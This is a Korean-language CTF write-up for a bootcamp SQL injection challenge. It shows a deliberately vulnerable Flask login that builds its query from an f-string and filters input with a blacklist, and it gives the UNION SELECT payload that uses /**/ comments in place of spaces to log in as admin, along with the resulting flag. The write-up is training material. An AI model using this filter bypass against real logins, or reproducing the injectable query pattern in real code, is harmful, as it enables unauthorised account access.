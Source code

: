 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.4 SQLi_WAF_4"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-29T15:30:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10033/>

![3.4 SQLi WAF 4 1](/assets/images/writeup/web-hacking/knock-on/3-4_SQLi_WAF_4_1.png)

![3.4 SQLi WAF 4 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.4 SQLi WAF 4 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정으로 로그인하기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
LOGIN_FLAG = os.getenv("LOGIN_FLAG")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', ' ', '=', '<', '>', '\\']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user and user[1] == "admin":
            return redirect(url_for("success", username=user[1], flag=LOGIN_FLAG))
        elif user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

|

|

|

## 코드 분석

### login()

---

```python
filtering_list = ['or', 'and', '"', ' ', '=', '<', '>', '\\']
```

등호, 부등호, 백슬래시가 추가되었고, 작은따옴표는 다시 사용 가능해짐

|

|

|

## Exploit

```sql
' union select 1,(select username from user limit 1,1),3 #
```

백 슬래시는 사용 불가능하고, 작은 따옴표는 사용 가능하기 때문에 username 부분에서 쿼리를 실행할 수 있게됨

|

```sql
'/**/union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3/**/#
```

공백은 사용 불가능하기 때문에 주석으로 대체

|

|

|

## Payload

```python
username: '/**/union/**/select/**/1,(select/**/username/**/from/**/user/**/limit/**/1,1),3/**/#

password: 1
```

|

|

### FLAG

---

```python
K0{WAF_is_no_use!}
```

|

---